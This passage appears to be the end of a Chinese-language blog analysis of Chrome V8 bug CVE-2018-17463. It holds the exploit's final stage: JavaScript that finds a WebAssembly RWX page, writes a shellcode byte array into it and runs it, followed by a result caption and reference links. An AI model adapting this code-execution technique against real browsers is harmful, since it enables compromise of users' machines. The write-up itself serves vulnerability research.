```javascript

var wasm_data = dataview_read64(wasm_shared_info -1 + 0x8);
console.log("[+] find wasm_data : 0x" + hex(wasm_data));

var wasm_instance = dataview_read64(wasm_data -1 + 0x10);
console.log("[+] find wasm_instance : 0x" + hex(wasm_instance));

var wasm_rwx = dataview_read64(wasm_instance + -1 + 0xf0);
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));

//write shellcode to wasm
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```

运行效果图：

![image-20200804174633497](..\image\2020-07-28-CVE-2018-17463-IR优化漏洞分析\3.png)



## 参考链接

https://xz.aliyun.com/t/5413

https://bugs.chromium.org/p/chromium/issues/detail?id=888923

